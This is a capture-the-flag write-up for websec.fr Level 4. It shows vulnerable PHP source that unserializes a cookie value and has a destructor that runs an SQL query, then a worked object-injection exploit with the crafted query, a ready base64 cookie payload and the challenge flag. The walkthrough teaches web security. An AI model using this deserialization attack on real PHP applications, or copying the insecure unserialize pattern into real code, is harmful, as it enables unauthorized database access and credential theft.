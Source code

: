# Level 4
## Task
Challenge URL: https://websec.fr/level04/index.php  

Since we're lazy, we take advantage of php's garbage collector to properly display query results.
We also do like to write neat OOP. You can get the sources [here](https://websec.fr/level04/source1.php) and [here](https://websec.fr/level04/source2.php). 

## Solution
### Initial observation
The first source:
```php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>
```

The second source:
```php
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```

From these sources, we can see that the `leet_hax0r` cookie is an associative array with `ip` as a property. This array is then serialized and encoded in base64 before being transmitted to the client.

When the server receives a request, it decodes the `leet_hax0r` cookie value, unserializes it and stored in `$sess_data`. Then, it checks whether `$sess_data` is an array and its `ip`'s value is of the IP address of the server. If either is wrong, **CANT HACK US!!!** is returned. Also, if the `id` parameter is set and is of integer, it will perform a SQL query.

In the second source code, the interesting here is the `__destruct()` method because it will be called when a `SQL` object is deleted. In addition, the `username` column from the result of the SQL query will be echoed.

### Exploitation
From the above information, we can guess that this application is vulnerable to **object injection**.  
In order to execute an arbitrary SQL query, we need to craft ourselves an `SQL` object whose properties are similar to those of the `$sql` on the server.
```php
class SQL {
    public $query = '';
    public $conn;
}

$inj = new SQL();
```
As SQL is not an array, we completely bypass the first `if..else..` block:
```php
if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
    die('CANT HACK US!!!');
}
```

When giving `1` as the **User id**, we get **Username: flag**; therefore, we might want the `password` of this user.  
Our query would be
```sql
SELECT password FROM users WHERE username='flag';
```

However, only the column named `usernamed` is echoed back, we need an alias:
```sql
SELECT password as username FROM users WHERE username='flag';
```

Now, our `$inj` object would be:
```
$inj->query = "SELECT password as username FROM users WHERE username='flag';";
```

Let's serialize and encode this object:
```
php > $sql->query = "SELECT password as username FROM users WHERE username='flag';";
php > echo urlencode(base64_encode(serialize($sql)));
TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6NjE6IlNFTEVDVCBwYXNzd29yZCBhcyB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIHVzZXJuYW1lPSdmbGFnJzsiO3M6NDoiY29ubiI7Tjt9
```

Modify the `leet_hax0r` cookie value to our value.  

![image](https://user-images.githubusercontent.com/44528004/132871370-ff4b11c1-f9d4-41fe-9a12-62b43a5c71d4.png)

And got the result:  

![image](https://user-images.githubusercontent.com/44528004/132871429-b6e5279b-2545-4c27-97cc-0e4287c82801.png)
> Flag: `WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}`
